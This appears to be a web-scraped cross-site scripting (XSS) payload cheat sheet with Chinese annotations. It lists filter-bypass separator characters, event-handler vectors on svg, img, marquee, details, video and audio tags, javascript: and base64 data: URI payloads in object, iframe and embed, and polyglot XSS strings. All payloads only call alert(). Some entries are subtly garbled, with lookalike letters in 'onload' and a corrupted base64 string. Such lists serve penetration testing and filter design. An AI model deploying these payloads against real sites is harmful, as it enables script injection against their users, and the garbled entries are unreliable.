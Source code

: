             十进制值            	                URL编码            	                介绍            
            47            	                %2F            	                正斜杠            
            13            	                %0D            	                回车            
            12            	                %0C            	                分页符            
            10            	                %0A            	                换行            
            9            	                %09            	                水平制表符            


```
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>
<svg><p><style><a id="</style><img src=1 onerror=alert(1)>"></p></svg>
```



<svg/οnlοad=alert(1)> 

```
<svg

onload=alert(1)><svg> # newline char

<svg	onload=alert(1)><svg> # tab char

<svg οnlοad=alert(1)>   # new page char (0xc) 
```



```
<img src=x onerror=alert()>

<svg onload=alert()>

<body onpageshow=alert(1)>

<div style="width:1000px;height:1000px" onmouseover=alert()></div>

<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)

<marquee onstart=alert(1)> (firefox only)

<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)

<input autofocus="" onfocus=alert(1)></input>

<details open ontoggle="alert()">  (chrome & opera only)
```



事件名称 标签 备注
 onplay video, audio 适用于0-click：结合HTML的autoplay属性以及结合有效的视频/音频
 onplaying video, audio 适用于0-click: 结合HTML的autoplay属性以及结合有效的视频/音频
 oncanplay video, audio 必须链接有效的视频/音频
 onloadeddata video, audio 必须链接有效的视频/音频
 onloadedmetadata video, audio 必须链接有效的视频/音频
 onprogress video, audio 必须链接有效的视频/音频
 onloadstart video, audio 潜在的0-click向量
 oncanplay video, audio 必须链接有效的视频/音频

```
<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src=x></video>

<video controls oncanplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

<audio autoplay controls onplaying="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
```



```
<object data="data:text/html,<script>alert(5)</script>">

<iframe srcdoc="<svg onload=alert(4);>">

<object data=javascript:alert(3)>

<iframe src=javascript:alert(2)>

<embed src=javascript:alert(1)>

<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>

<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczL**yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
```





```
            字符            	                使用            	                多段代码            
            141            	                DOM和非DOM            	                javascript:”/*’/*`/*–></noscript></title></textarea></style></template></noembed></script><html \” onmouseover=/*<svg/*/onload=alert()//>            
            88            	                非DOM            	                “‘–></noscript></noembed></template></title></textarea></style><script>alert()</script>            
            95            	                DOM            	                ‘”–></title></textarea></style></noscript></noembed></template></frameset><svg onload=alert()>            
            54            	                非DOM            	                “‘>–>*/</noscript></ti tle><script>alert()</script>            
            42            	                DOM            	                “‘–></style></script><svg onload=alert()>  
```